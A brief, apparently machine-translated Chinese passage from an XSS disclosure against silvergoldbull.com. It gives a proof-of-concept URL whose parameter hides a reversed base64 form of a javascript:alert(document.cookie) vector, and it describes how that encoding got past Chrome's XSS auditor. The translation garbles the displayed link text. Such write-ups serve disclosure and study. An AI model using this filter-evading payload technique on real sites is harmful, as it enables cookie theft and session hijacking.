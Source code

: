 网址:

> [https://silvergoldbull.com/bt.html?g = xet mv 8 yopuwar 92 bj 5 cduvwb 1n 2 bkhcdyvgbhpdwlmcjnxy 2 fma 1](https://silvergoldbull.com/bt.html?g=xETMv8yOpUWar92bj5CduVWb1N2bkhCdyVGbhpDdwlmcjNXY2Fma1)

概念验证:

![](img/a7d199811a14d9c1b26d4ef9ec930859.png)

谷歌 Chrome 浏览器中的 Img 1.0 页面加载——绕过了 XSS 审计员

![](img/0c54fbd4042f8b3afe9b7dc51964894f.png)

Mozilla Firefox 中的 Img 2.0 页面加载

我们用的是 vector JavaScript:alert(document . cookie)；//111 生成不带等号或加号的 BASE64，然后我们反转字符串并在末尾添加数值:

![](img/0d22465ecb7fabce467a38f98dfc01ee.png)
